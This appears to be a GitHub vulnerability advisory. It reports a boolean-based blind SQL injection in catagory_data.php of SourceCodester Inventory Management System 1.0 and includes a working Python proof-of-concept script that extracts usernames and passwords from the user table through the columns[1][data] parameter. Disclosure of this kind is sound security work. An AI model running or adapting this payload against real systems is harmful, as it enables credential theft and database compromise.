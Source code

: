 # SourceCodester Inventory Management System 1.0 has a SQL Injection vulnerability in catagory_data.php
## Software

- Software: Inventory Management System 1.0
- Software Link: https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html
- Vulnerability Type: SQL Injection
- Attack Type: Remote
- Vendor of Product: Sourcecodester

## Description

A vulnerability has been found in SourceCodester Inventory Management System 1.0 and classified as critical. SourceCodester Inventory Management System 1.0 has a SQL Injection vulnerability in catagory_data.php. Affected is file catagory_data.php, the manipulation of the argument `columns[1][data]` leads to SQL injection. The injection vulnerability located after the `order by` clause. By comparing the different sorting order results between `order by id^1` and `order by id^0`, it is possible to achieve boolean-based blind injection. Remote attackers can exploit boolean-based blind injection to retrieve all data from the database.

## Vulnerability Code
- app/ajax/catagory_data.php

![](https://github.com/Yesec/Inventory-Management-System/assets/19534204/2cda67b0-0026-4949-b2c8-21945854c20e)

## POC
```python
import requests
import string

url = "http://localhost/app/ajax/catagory_data.php"
res = ""
dict = string.digits + string.ascii_lowercase + "!@#$%^()[]_."

for i in range(1,50):
    for j in dict:
        # payload = "id^(select(select database()) regexp '^%s');" % (res+j)
        payload = "id^(select(select group_concat(username,password) from user) regexp '^%s');" % (res+j)
        data = {
            "order[0][column]":"1",
            "columns[1][data]": payload
        }
        response = requests.post(url, data=data)
        if '3' in response.text[802:810]:
            res += j
            print("[*] Found: ",res)
            break
```
![](https://github.com/Yesec/Inventory-Management-System/assets/19534204/19dde424-e1e4-4658-a547-5f74ee739870)
